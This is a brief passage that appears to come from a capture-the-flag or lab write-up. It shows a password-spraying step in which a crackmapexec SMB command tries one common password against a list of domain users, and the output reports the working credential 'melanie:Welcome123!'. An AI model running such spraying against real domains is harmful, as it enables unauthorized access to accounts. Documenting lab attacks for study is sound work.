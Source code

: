 ![image-20221212215630948](./images/image-20221212215630948.png)

Password sparay.

```bash
# password sparay, melanie pwned.
echo 'Welcome123!' > password.list
crackmapexec smb $tip -u domainuser.list -p password.list

melanie:Welcome123!
```
